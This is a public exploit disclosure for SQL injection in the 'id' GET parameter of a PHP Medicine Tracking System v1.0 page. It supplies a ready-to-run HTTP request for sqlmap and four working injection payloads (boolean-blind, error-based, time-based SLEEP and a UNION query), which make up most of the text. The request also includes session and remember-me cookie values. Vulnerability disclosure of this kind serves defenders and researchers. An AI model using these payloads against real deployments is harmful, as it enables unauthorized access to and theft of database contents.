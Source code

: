# Exploit Title: SQLi in Medicine Tracking System Schedule view_details

Vulnerability url: /php-mts/app/?page=schedules/view_details&id=

GET parameter 'id' exists SQL injection vulnerability


### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Medicine Tracking System](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0


### POC
> Add request below to txt and run python sqlmap.py -r file_name.txt

```
GET /php-mts/app/?page=schedules/view_details&id=6 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
> Payload:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=schedules/view_details&id=6' AND 9871=9871 AND 'BvQB'='BvQB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=schedules/view_details&id=6' AND (SELECT 1136 FROM(SELECT COUNT(*),CONCAT(0x7162767671,(SELECT (ELT(1136=1136,1))),0x7170787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'DJGU'='DJGU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=schedules/view_details&id=6' AND (SELECT 2665 FROM (SELECT(SLEEP(5)))fVOY) AND 'nXjY'='nXjY

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: page=schedules/view_details&id=-3921' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162767671,0x46695869527270724d6d6e6c6549676d7163725870557557646d584465516d6953634b6c77557546,0x7170787871),NULL,NULL,NULL,NULL-- -
```

> POC result with Sqlmap
> 
![Example Image](https://drive.google.com/uc?id=1GhKCQ6VpX8Z4cXmJDrd5u9bbfRVU4qiv)

